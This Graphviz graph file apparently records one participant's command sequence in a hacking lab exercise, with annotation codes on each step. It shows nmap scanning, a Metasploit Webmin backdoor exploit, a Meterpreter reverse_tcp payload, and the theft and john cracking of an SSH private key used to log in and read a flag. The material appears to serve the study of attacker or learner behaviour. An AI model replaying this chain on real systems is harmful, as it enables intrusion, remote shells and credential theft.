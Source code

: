 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A A1 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="ip a U"]
	9 [label="set LHOST 10.1.135.83 M6 "]
	10 [label="show options U"]
	11 [label="set RHOSTS 172.18.1.5 U"]
	12 [label="exploit U"]
	13 [label="search web U"]
	14 [label="search web_de U"]
	15 [label="setg LHOST 10.1.135.83 U"]
	16 [label="use exploit/multi/script/web_delivery U"]
	17 [label="show optins U"]
	18 [label="show otions U"]
	19 [label="show options U"]
	20 [label="set target linux U"]
	21 [label="show options U"]
	22 [label="show targets U"]
	23 [label="set target  U"]
	24 [label="show options U"]
	25 [label="show targets U"]
	26 [label="set target  U"]
	27 [label="set target 6 U"]
	28 [label="show options U"]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  U"]
	30 [label="show options U"]
	31 [label="run U"]
	32 [label="use exploit/unix/webapp/webmin_backdoor U"]
	33 [label="run U"]
	34 [label="set LPORT 4445 U"]
	35 [label="run U"]
	36 [label="nmap 172.18.1.5/12 -p- A1 "]
	37 [label="sessions 3 U"]
	38 [label="sessions U"]
	39 [label="sessions -u ~ U"]
	40 [label="sessions -u 3 U"]
	41 [label="sessions 3 U"]
	42 [label="nmap 172.18.1.5/24 -p- A1 "]
	43 [label="sessions 4 U"]
	44 [label="sessions U"]
	45 [label="nmap 172.18.1.2 A1 "]
	46 [label="ip a U"]
	47 [label="ip route U"]
	48 [label="sessions 3 U"]
	49 [label="sessions 4 U"]
	50 [label="sessions U"]
	51 [label="nmap 81.2.195.254 A1 "]
	52 [label="curl 81.2.195.254 U"]
	53 [label="ping 10.1.18.22 U"]
	54 [label="nmap 10.1.18.22 A1 "]
	55 [label="nmap 10.1.17.4 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A14 A16 A17 "]
	62 [label="cd U"]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa A14 A16 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve A14 A16 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	72 [label="ssh eve@10.1.17.4 U"]
	73 [label="ls -la A10 "]
	74 [label="cd top-secret/ U"]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	77 [label="sessions 5 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	rankdir=LR
}
